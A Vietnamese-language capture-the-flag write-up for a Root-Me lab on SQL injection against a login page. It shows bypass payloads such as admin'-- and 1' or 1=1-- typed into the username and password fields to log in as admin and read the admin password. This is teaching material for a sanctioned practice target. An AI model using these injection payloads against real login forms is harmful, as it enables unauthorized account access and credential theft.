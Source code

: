 # [SQL injection - Authentication](https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-authentication)

<img src="./media/image1.png" style="width:4.53264in;height:2.20094in" alt="Graphical user interface, text, application, website Description automatically generated" />

Thử với payload:
```yaml
Username: `1’--`
Password: `1`
```

<img src="./media/image2.png" style="width:4.10869in;height:0.8084in" alt="A picture containing logo Description automatically generated" />

Như vậy, ta không thể inject được vào input. Thử inject vào password:
```yaml
Username: `1`
Password: `1’ or 1=1--`
```

<img src="./media/image3.png" style="width:4.68253in;height:2.04271in" alt="Graphical user interface, application Description automatically generated" />

Ta có thể đoán được, có vẻ như cần phải có username chính xác mới có thể inject được ở username, thử kiểm chứng bằng cách inject ở username với payload `user1—`.

<img src="./media/image3.png" style="width:4.68253in;height:1.27739in" alt="Graphical user interface, application Description automatically generated" />

Như vậy, để trộm được password của admin, ta cần phải biết username của admin để thực hiện inject. Và nhờ informations hiển thị của user1, ta có thể đoán username của admin có thể là **admin** hoặc **administrator.**

**Thử với payload:**
```yaml
-   Username: `admin’--`
-   Password: `1`
```

<img src="./media/image4.png" style="width:4.59206in;height:2.25853in" alt="Graphical user interface, text, application, email Description automatically generated" />

Inspect và tìm được password của admin:

<img src="./media/image5.png" style="width:4.6254in;height:1.36678in" alt="Text Description automatically generated" />

- Flag: "****************************"
